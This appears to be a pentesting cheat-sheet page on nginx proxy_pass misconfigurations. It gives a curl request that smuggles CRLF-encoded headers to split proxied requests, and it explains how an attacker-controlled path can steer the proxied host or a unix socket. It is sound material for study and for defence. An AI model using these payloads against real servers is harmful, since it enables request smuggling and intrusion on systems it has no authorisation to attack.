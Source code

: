 #### HTTP Splitting

{% tabs %}
{% tab title="Enumeration" %}
If the regular expressions used in that directive are weak, they allow **HTTP splitting** to happen.

With a configuration such as the following:

```
location ~ /docs/([^/]*/[^/]*)? {
    proxy_pass https://bucket.s3.amazonaws.com/docs-website/$1.html;
}
```

the problem with this regular expressions is that it also allows newlines per default. In this case, the `[^/]*` part actually also includes encoded newlines.
{% endtab %}

{% tab title="Exploit" %}
Because of this missconfiguration, using multiple `%0d%0a` (CRLF) allow us to exploit that HTTP SPlitting vulnerability successfully. We can send the following request:

```bash
#Request
curl 'http://example.com/docs/%20HTTP/1.1%0d%0aHost:non-existing-bucket1%0d%0a%0d%0a'

#Request sent to bucket after proxy
GET /docs-website/ HTTP/1.1
Host:non-existing-bucket1

.html HTTP/1.0
Host: bucket.s3.amazonaws.com
```
{% endtab %}
{% endtabs %}

#### Controlling proxied host

{% tabs %}
{% tab title="Enumeration" %}
In some setups, a matching path is used as part of the hostname to proxy to.

```
location ~ /static/(.*)/(.*) {
    proxy_pass   http://$1-example.s3.amazonaws.com/$2;
}
```

Since the bucket is attacker controlled (part of the URI path) this leads to XSS but also has further implications.

We could make `proxy_pass` connect to a local unix socket as it supports proxying requests to local `unix` sockets. What might be surprising is that the URI given to `proxy_pass` can be prefixed with `http://` or as a UNIX-domain socket path specified after the word `unix` and enclosed in colons:

```
proxy_pass http://unix:/tmp/backend.sock:/uri/;
```
{% endtab %}
